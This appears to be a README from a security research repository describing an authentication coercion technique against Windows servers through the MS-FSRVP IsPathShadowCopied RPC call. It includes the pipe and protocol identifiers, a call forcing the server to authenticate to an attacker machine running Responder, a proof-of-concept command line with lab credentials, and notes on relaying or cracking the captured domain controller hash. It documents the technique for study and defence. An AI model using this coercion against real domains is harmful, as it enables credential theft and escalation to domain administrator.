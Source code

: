 # MS-FSRVP - Remote call to IsPathShadowCopied (opnum 9)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **Function name**: [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e)

 - **Function operation number**: `9`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\FssagentRpc` and bind to (uuid `a8e0653c-2744-4389-a61d-7373df8b2292`, version `1.0`) in order to perform calls to RPC functions of the `MS-FSRVP` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\FssagentRpc`. This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. It will then call the remote [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('\\192.168.2.51\NETLOGON\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD IsPathShadowCopied(
    [in] handle_t hBinding,
    [in] [string] LPWSTR ShareName,
    [out] BOOL* ShadowCopyPresent,
    [out] long* ShadowCopyCompatibility
);
```

 - **hBinding**:  An RPC binding handle (as defined in [C706]).


 - **ShareName**: The full path of the share in UNC format.


 - **ShadowCopyPresent**: This value is set to TRUE if the ShareName specified has a shadow copy; otherwise set to FALSE.


 - **ShadowCopyCompatibility**: This value indicates whether certain I/O operations on the file store containing the shadow copy are disabled. This MUST be zero or a combination of the values as specified in section 2.2.2.3.

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b


 - Documentation of function `IsPathShadowCopied`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e

 - This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Dec 28, 2021: https://twitter.com/topotam77/status/1475701014204461056